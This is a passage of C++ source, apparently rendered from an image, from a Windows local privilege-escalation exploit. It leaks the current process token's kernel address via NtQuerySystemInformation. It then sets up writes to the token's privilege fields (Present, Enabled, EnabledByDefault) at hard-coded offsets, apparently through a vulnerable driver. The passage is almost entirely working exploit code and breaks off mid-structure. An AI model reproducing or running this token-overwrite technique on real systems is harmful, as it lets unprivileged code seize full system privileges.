 ```cpp
        return -1;
    }
    std::cout << "[+] Opened a handle to the current process token!\n";

    // allocate space in the heap for the handle table information which will be filled by the call to 'NtQuerySystemInformation' API
    PSYSTEM_HANDLE_INFORMATION handleTableInformation = (PSYSTEM_HANDLE_INFORMATION)HeapAlloc(::GetProcessHeap(), HEAP_ZERO_MEMORY, SystemHandleInformationSize);

    // call NtQuerySystemInformation and fill the handleTableInformation structure
    ULONG returnLength = 0;
    NtQuerySystemInformation(SystemHandleInformation, handleTableInformation, SystemHandleInformationSize, &returnLength);

    uint64_t tokenAddress = 0;
    // iterate over the system's handle table and look for the handles beloging to our process
    for (int i = 0; i < handleTableInformation->NumberOfHandles; i++)
    {
        SYSTEM_HANDLE_TABLE_ENTRY_INFO handleInfo = (SYSTEM_HANDLE_TABLE_ENTRY_INFO)handleTableInformation->Handles[i];
        // if it finds our process and the handle matches the current token handle we already opened, print it
        if (handleInfo.UniqueProcessId == ::GetCurrentProcessId() && handleInfo.HandleValue == (USHORT)currentToken)
        {
            tokenAddress = (uint64_t)handleInfo.Object;
            std::cout << "[+] Current token address in kernelspace is: 0x" << std::hex << tokenAddress << std::endl;
        }
    }

    // allocate a variable set to 0
    int field2 = 0;

    /*
    dt nt!_SEP_TOKEN_PRIVILEGES
       +0x000 Present          : Uint8B
       +0x008 Enabled          : Uint8B
       +0x010 EnabledByDefault : Uint8B

    We've added +1 to the offsets to ensure that the low bytes part are 0xff.
    */

    // overwrite the _SEP_TOKEN_PRIVILEGES  "Present" field in the current process token
    Exploit exploit =
        {
            8,
            0,
            &field2,
            (void *)(tokenAddress + 0x41)};

    // overwrite the _SEP_TOKEN_PRIVILEGES  "Enabled" field in the current process token
    Exploit exploit2 =
        {
            8,
            0,
            &field2,
            (void *)(tokenAddress + 0x49)};

    // overwrite the _SEP_TOKEN_PRIVILEGES  "EnabledByDefault" field in the current process token
    Exploit exploit3 =
        {
            8,
```
